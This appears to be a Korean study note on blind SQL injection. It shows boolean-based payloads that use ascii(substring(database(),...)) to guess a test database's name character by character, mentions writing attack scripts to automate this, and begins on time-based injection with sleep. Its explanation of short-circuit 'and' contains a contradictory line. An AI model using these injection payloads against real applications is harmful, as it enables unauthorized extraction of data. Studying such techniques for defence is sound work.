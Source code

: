 <br>

```
데이터베이스명 알아내기
-- 미리 체크
mysql> select database();
+------------+
| database() |
+------------+
| WebTest    |
+------------+
1 row in set (0.00 sec)

-- 모른다는 가정하에 테스트
- 알파벳인가 ? (확률)
' or ascii(substring(**database()**,1,1)) >= 65  #
참

- 대소문자 ? (확률)
' or ascii(substring(**database()**,1,1)) >= 97  #
거짓 

' or ascii(substring(**database()**,2,1)) >= 65 #
' or ascii(substring(**database()**,3,1)) >= 65 #
' or ascii(substring(**database()**,4,1)) >= 65 #
```

<br>

<br>

<br>

Boolean-Based Blind Injection 스크립트 작성

- Blind SQL Injection 수행 시 정보 획득을 위해 수 많은 쿼리를 발생시켜야 함
- 예로 회원정보 테이블에서 100여 건의 레코드를 추출하기 위해서는 수 만개의 쿼리를 사용해야 될 수도있음
- 쿼리를 직접 대입하는 것은 불가능은 아니지만 현실적으로 매우 힘들기 때문에 공격 스크립트를 작성후 정보 획득  C, PHP, Perl, Python, Ruby, ...

<br>

<br>

<br>

#####  Time-Based Blind SQL Injection

![2022-10-26-112타임](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-112타임.jpg)

<br>

sleep 함수

```
- 조건의 참인 SQL Query의 응답시간을 지연시키는 함수
 참 → 지정된 시간만큼 지연시킨 후 결과 반환
 거짓 → 즉시 결과 반환
- 네트워크의 통신 상태에 따라 결과가 부정확 할 수 있음

사용 예
 and 연산자를 사용하는 경우 앞의 조건이 참이면 뒤의 내용 실행
 앞의 조건이 거짓이면 뒤의 내용 실행하지 않음(Short Cut) - 어차피 거짓이므로 !!!! 

A and B
- A 가 참인경우 B 확인
- A 가 거짓인경우 B 확인  

참  True 1  on
거짓 False 0  off 
```